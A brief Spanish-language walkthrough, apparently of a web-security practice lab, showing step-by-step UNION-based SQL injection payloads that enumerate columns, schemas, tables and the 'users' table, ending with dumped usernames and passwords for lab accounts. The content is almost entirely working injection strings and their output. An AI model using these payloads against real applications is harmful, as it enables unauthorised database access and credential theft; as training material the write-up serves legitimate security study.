

Enumeramos el numero de las columnas

```c
'union select null,null--
```

Enumeramos las base de datos

```c
=Accessories'union select null,schema_name from information_schema.schemata--
```

Las bases de datos que tenemos son las siguientes:

```c
public
pg_catalog
```

Enumeramos las tablas:

```c
'union select null,table_name from information_schema.tables where table_schema='public'--
```

Encontramos la tabla que es `users` y luego enumeramos las columnas de la tabla

```c
Accessories'union select null,column_name from information_schema.columns where table_schema='public' and table_name='users'--
```

Las columnas que tenemos son:

```c

email
password
username
```

Las credenciales que encontramos es:

```c
Accessories'union select null,concat(username,' : ',password) from users--
administrator : 6wzxjgh4re1q66iv8rmk
wiener : wmc9w3te7d2gki61r5nn
carlos : ojko3yzladh5blf9y3jp
```


